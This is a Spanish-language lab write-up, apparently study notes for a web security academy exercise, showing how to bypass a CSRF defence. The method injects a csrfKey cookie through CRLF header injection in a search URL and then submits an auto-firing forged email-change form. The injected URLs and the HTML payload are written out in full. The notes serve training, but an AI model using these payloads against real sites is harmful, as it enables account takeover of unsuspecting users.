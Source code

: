 En esta clase continuamos con la explotación de sistemas con defensas CSRF mal implementadas. El servidor emplea una cookie llamada ‘**csrfKey**‘ junto al token CSRF, pero esta cookie no está ligada a la sesión del usuario, por lo que es posible inyectarla en el navegador de la víctima aprovechando la funcionalidad vulnerable del buscador.

El ataque se desarrolla en dos fases:

- Inyección de la cookie ‘**csrfKey**‘ en el navegador víctima mediante una URL de búsqueda que fuerza al servidor a emitir un encabezado ‘**Set-Cookie**‘ reflejado.
- Envío del formulario CSRF con el token correspondiente, haciendo uso de la cookie previamente establecida.

Gracias a esto, conseguimos alterar la dirección de correo de la víctima sin que el servidor lo detecte como una acción ilegítima.

Este escenario demuestra cómo incluso mecanismos aparentemente robustos pueden ser burlados cuando no se integran correctamente con la lógica de sesión.

Solucion
Como veiamos en la otra imagen nosotro teniamos un SET-Cookie en la parte del send asi que lo que nosotros podriamos hacer es hacer un salto de lienar para obtener otro nuevo SET-COOKIE para ello en el codigo ascii podemos ver eso
![Pasted_image_20250723201619.png](Imagenes/Pasted_image_20250723201619.png)

asi que vamos a pasar esto para cambiarlo
(/?search=hola%20Set-Cookie:%20csrfKey=a )
![Pasted_image_20250723201727.png](Imagenes/Pasted_image_20250723201727.png)
asi que esto no lo vamos a llevar a decoder y ahi vamos a darle decoder y le ponemos URL y vamos agregar lo siguiente
(/?search=hola%0D%0ASet-Cookie:%20csrfKey=a) tuvimos que eliminar el %20 despues del hola
![Pasted_image_20250723202139.png](Imagenes/Pasted_image_20250723202139.png)
ahora lo vamos a suplantar por lo que teniamos  asi que podemos ver que si funciona el cambio
![Pasted_image_20250723202613.png](Imagenes/Pasted_image_20250723202613.png)
con todo obtenido vamos a obtener nuestro payload
lo primero copiamos el formulario
![Pasted_image_20250723202931.png](Imagenes/Pasted_image_20250723202931.png)
y en este caso vamos a cargar una imagen 
(<form class="login-form" name="change-email-form" action="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/my-account/change-email" method="POST">                          
    <input type="hidden" name="email" value="hola@tenso.com">
    <input required="" type="hidden" name="csrf" value="myxrfjEOa56IEtZMnXN2y8zGACc33wuI">
</form>

<img src="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/?search=/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20SameSite=None" onerror="document.forms[0].submit()">)
![Pasted_image_20250723204922.png](Imagenes/Pasted_image_20250723204922.png)

basicamente en el primer csrf ponemos esto del wiener
![Pasted_image_20250723205010.png](Imagenes/Pasted_image_20250723205010.png)
y en el segundo ponemos esto 
![Pasted_image_20250723205036.png](Imagenes/Pasted_image_20250723205036.png)
pero aqui le vamos agregar algo (/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20 SameSite=None)
![Pasted_image_20250723205116.png](Imagenes/Pasted_image_20250723205116.png)

